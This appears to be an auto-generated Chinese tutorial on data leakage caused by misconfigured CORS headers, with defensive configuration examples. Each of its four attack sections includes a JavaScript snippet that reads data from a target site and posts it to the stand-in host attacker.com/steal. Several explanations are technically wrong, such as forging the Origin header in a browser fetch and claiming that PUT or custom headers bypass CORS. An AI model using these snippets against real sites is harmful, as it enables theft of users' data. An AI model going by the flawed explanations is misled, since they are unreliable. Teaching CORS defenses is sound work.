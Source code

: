 ### CORS配置错误导致的数据泄露

**跨域资源共享（CORS，Cross-Origin Resource Sharing）** 是一种浏览器机制，它允许网页从不同的域（即跨域）请求资源。CORS通过HTTP头来定义哪些跨域请求是被允许的。然而，如果CORS配置不当，攻击者可以利用这些错误来窃取敏感数据，导致严重的安全问题。

#### 1. CORS基础

CORS的核心在于服务器通过HTTP响应头来指定哪些外部域可以访问其资源。关键的HTTP头包括：

- **Access-Control-Allow-Origin**: 指定允许访问资源的域。例如，`Access-Control-Allow-Origin: https://example.com` 表示只有 `https://example.com` 可以访问该资源。
- **Access-Control-Allow-Credentials**: 指定是否允许携带凭据（如cookies）进行跨域请求。如果设置为 `true`，浏览器会发送凭据。
- **Access-Control-Allow-Methods**: 指定允许的HTTP方法（如GET、POST等）。
- **Access-Control-Allow-Headers**: 指定允许的HTTP头。

#### 2. CORS配置错误的常见类型

CORS配置错误通常是由于服务器未正确设置或过度宽松的CORS策略导致的。以下是几种常见的CORS配置错误：

##### 2.1 过度宽松的 `Access-Control-Allow-Origin`

如果服务器将 `Access-Control-Allow-Origin` 设置为 `*`，这意味着任何域都可以访问该资源。虽然这在某些情况下是合理的（如公开的API），但如果资源包含敏感数据，这将导致严重的安全问题。

**攻击手法**：
攻击者可以创建一个恶意网站，通过AJAX请求目标服务器的资源。由于 `Access-Control-Allow-Origin` 设置为 `*`，浏览器会允许跨域请求，攻击者可以窃取敏感数据。

**利用方式**：
```html
<script>
  fetch('https://vulnerable-site.com/sensitive-data')
    .then(response => response.json())
    .then(data => {
      // 将窃取的数据发送到攻击者的服务器
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
</script>
```

##### 2.2 动态 `Access-Control-Allow-Origin` 未验证来源

有些服务器会根据请求的 `Origin` 头动态设置 `Access-Control-Allow-Origin`。如果服务器未验证 `Origin` 头的合法性，攻击者可以伪造 `Origin` 头来绕过CORS限制。

**攻击手法**：
攻击者可以伪造 `Origin` 头，使其指向自己的恶意网站。服务器可能会错误地将 `Access-Control-Allow-Origin` 设置为攻击者的域，从而允许跨域请求。

**利用方式**：
```javascript
fetch('https://vulnerable-site.com/sensitive-data', {
  headers: {
    'Origin': 'https://attacker.com'
  }
})
  .then(response => response.json())
  .then(data => {
    // 将窃取的数据发送到攻击者的服务器
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

##### 2.3 允许携带凭据的跨域请求

如果服务器将 `Access-Control-Allow-Credentials` 设置为 `true`，并且 `Access-Control-Allow-Origin` 设置为特定的域，攻击者可以利用这一点来窃取用户的凭据。

**攻击手法**：
攻击者可以创建一个恶意网站，通过AJAX请求目标服务器的资源，并携带用户的cookies。由于 `Access-Control-Allow-Credentials` 设置为 `true`，浏览器会发送cookies，攻击者可以窃取用户的会话信息。

**利用方式**：
```html
<script>
  fetch('https://vulnerable-site.com/sensitive-data', {
    credentials: 'include'
  })
    .then(response => response.json())
    .then(data => {
      // 将窃取的数据发送到攻击者的服务器
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
</script>
```

##### 2.4 未正确限制HTTP方法和头

如果服务器未正确限制允许的HTTP方法和头，攻击者可以利用这些漏洞进行更复杂的攻击。

**攻击手法**：
攻击者可以发送非标准的HTTP方法或自定义的HTTP头，绕过服务器的CORS限制，从而访问敏感资源。

**利用方式**：
```javascript
fetch('https://vulnerable-site.com/sensitive-data', {
  method: 'PUT', // 非标准的HTTP方法
  headers: {
    'X-Custom-Header': 'malicious-value' // 自定义的HTTP头
  }
})
  .then(response => response.json())
  .then(data => {
    // 将窃取的数据发送到攻击者的服务器
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

#### 3. 防御措施

为了防止CORS配置错误导致的数据泄露，开发人员应采取以下措施：

##### 3.1 严格限制 `Access-Control-Allow-Origin`

避免将 `Access-Control-Allow-Origin` 设置为 `*`，除非资源确实是公开的。对于需要跨域访问的资源，应明确指定允许的域。

```http
Access-Control-Allow-Origin: https://trusted-site.com
```

##### 3.2 验证 `Origin` 头

如果服务器动态设置 `Access-Control-Allow-Origin`，应验证 `Origin` 头的合法性，确保其指向可信的域。

```python
allowed_origins = ['https://trusted-site.com', 'https://another-trusted-site.com']
origin = request.headers.get('Origin')
if origin in allowed_origins:
    response.headers['Access-Control-Allow-Origin'] = origin
```

##### 3.3 谨慎使用 `Access-Control-Allow-Credentials`

只有在确实需要时才将 `Access-Control-Allow-Credentials` 设置为 `true`，并确保 `Access-Control-Allow-Origin` 不设置为 `*`。

```http
Access-Control-Allow-Origin: https://trusted-site.com
Access-Control-Allow-Credentials: true
```

##### 3.4 限制允许的HTTP方法和头

明确指定允许的HTTP方法和头，避免不必要的开放。

```http
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, Authorization
```

##### 3.5 使用预检请求（Preflight Request）

对于复杂的跨域请求，使用预检请求来验证请求的合法性。

```http
OPTIONS /resource HTTP/1.1
Host: vulnerable-site.com
Origin: https://trusted-site.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Content-Type, Authorization
```

服务器应返回适当的CORS头来允许或拒绝请求。

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://trusted-site.com
Access-Control-Allow-Methods: POST
Access-Control-Allow-Headers: Content-Type, Authorization
```

#### 4. 总结

CORS配置错误可能导致严重的数据泄露问题，攻击者可以利用这些错误窃取敏感信息。开发人员应严格配置CORS策略，验证 `Origin` 头，谨慎使用 `Access-Control-Allow-Credentials`，并限制允许的HTTP方法和头。通过采取这些措施，可以有效防止CORS配置错误导致的安全问题。

---

*文档生成时间: 2025-03-11 17:46:30*






















